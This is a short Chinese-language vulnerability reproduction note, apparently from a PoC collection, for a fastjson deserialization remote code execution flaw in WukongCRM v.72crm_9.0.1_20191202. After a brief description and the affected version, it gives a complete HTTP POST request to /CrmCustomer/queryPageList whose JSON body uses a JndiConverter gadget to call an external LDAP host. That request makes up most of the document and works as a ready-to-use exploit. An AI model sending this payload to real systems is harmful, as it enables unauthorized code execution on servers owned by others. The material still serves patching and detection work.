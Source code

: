 **漏洞介绍**

WuKongOpenSource WukongCRM是中国悟空（WuKong）公司的一个客户关系管理 (CRM) 系统。

WuKongOpenSource WukongCRM v.72crm_9.0.1_20191202版本存在安全漏洞。远程攻击者利用该漏洞通过 fastjson 组件中的 parseObject() 函数执行任意代码。

**影响版本**

WuKongOpenSource WukongCRM v.72crm_9.0.1_20191202版本

**漏洞复现**

 **POC** 

```yaml
POST /CrmCustomer/queryPageList HTTP/1.1
Host: 127.0.0.1
Content-Length: 93
Content-Type: application/json;charset=UTF-8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Connection: close

{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"ldap://iwmmj3.dnslog.cn"}"
```

